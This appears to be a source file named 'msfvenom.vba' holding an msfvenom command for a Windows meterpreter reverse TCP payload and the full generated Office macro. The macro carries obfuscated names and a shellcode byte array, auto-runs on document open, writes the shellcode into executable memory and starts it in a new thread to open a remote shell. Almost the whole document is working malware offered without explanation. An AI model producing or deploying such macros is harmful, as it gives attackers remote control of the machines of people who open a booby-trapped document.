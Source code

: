 msfvenom.vba

```plaintext
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f vba -o MacroAttack.vba
```

```plaintext
#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Hsftnqav As Long, ByVal Ywha As Long, ByVal Bmxmxakic As LongPtr, Quks As Long, ByVal Eyjxc As Long, Cttl As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Zhxw As Long, ByVal Kqupn As Long, ByVal Wmc As Long, ByVal Synyvm As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Wbbwsxt As LongPtr, ByRef Ekp As Any, ByVal Bxssrljwg As Long) As LongPtr
#Else
    Private Declare Function CreateThread Lib "kernel32" (ByVal Hsftnqav As Long, ByVal Ywha As Long, ByVal Bmxmxakic As Long, Quks As Long, ByVal Eyjxc As Long, Cttl As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Zhxw As Long, ByVal Kqupn As Long, ByVal Wmc As Long, ByVal Synyvm As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Wbbwsxt As Long, ByRef Ekp As Any, ByVal Bxssrljwg As Long) As Long
#EndIf

Sub Auto_Open()
    Dim Sdcxt As Long, Jkkfrdd As Variant, Ttlr As Long
#If Vba7 Then
    Dim  Nss As LongPtr, Jqcace As LongPtr
#Else
    Dim  Nss As Long, Jqcace As Long
#EndIf
    Jkkfrdd = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,139,114,40,49,255,15,183,74,38,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192,116,76,1,208,139,72,24,139,88,32,80,1,211,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,127,0,0,1,104,2,0,1,187,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,240,181,162,86,106,0,83,255,213)

    Nss = VirtualAlloc(0, UBound(Jkkfrdd), &H1000, &H40)
    For Ttlr = LBound(Jkkfrdd) To UBound(Jkkfrdd)
        Sdcxt = Jkkfrdd(Ttlr)
        Jqcace = RtlMoveMemory(Nss + Ttlr, Sdcxt, 1)
    Next Ttlr
    Jqcace = CreateThread(0, 0, Nss, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```
